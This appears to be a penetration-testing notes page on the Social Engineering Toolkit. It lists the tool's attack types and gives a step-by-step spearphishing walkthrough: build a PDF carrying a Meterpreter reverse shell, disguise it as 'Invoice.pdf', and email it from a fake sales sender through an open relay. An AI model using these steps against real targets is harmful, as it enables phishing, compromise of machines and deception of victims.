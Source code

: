 ```yaml
---
title: Social Engineering Toolkit
layout: default
---
```


# Social Engineering Toolkit
Open source penetration testing framework designed for social engineering.
Encompasses built-in attacks which are designed to be focused on a person or organization.

Detailed information [here](https://github.com/trustedsec/social-engineer-toolkit).

Social Engineering Toolkit covers:
- Spearphishing Attacks
- Website Attacks
- Infectious Media Attacks
- Wireless AP Attacks
- Powershell Attacks
- ...and more

# Techniques covered
- Technical Information Gathering
    - T1249 Conduct Social Engineering
    - T1397 Spearphishing for information
- People Information Gathering
    - T1268 Conduct Social Engineering

# Basic Usage
SET runs in interactive mode.

Google puts in a lot of effort to prevent phishing emails.
Setup your own server of relay server to send payload in email.

## Example: Spearphishing with PDF embedded exe
1. Spear-Phishing Attack Vectors
2. Create a FileFormat Payload
3. Adobe PDF Embedded EXE Social Engineering 
4. Use built-in BLANK PDF for attack
5. Windows Meterpreter Reverse_TCP(x64)
6. Host: external IP for your PC/listener
7. Port: default 443
8. Rename the file, I want to be cool.
9. New filename:Invoice.pdf
10. E-Mail Attack Single Email Address
11. Pre-Defined Template
12. Order Confirmation
13. Send email to:target@eyepaste.com
14. Use your own server or open relay
15. From address: abc@my-server.com
16. The FROM NAME user will see: Online Sales Team
17. Username for open-relay [blank]: <your-mail-server>
18. Password for open-relay [<your-mail-server>]: <your-mail-server-password>
19. SMTP email server address: <your-smtp-email-server-address>
20. Port number for SMTP server [25]: 587
21. Flag this message as high priority? [yes|no]: yes
22. Does your server support TLS? [yes|no]: no
23. Setup a listener [yes|no]:yes
24. This will start a metasploit session with listener
25. Now you have to wait for target to open set playload(pdf in this case)

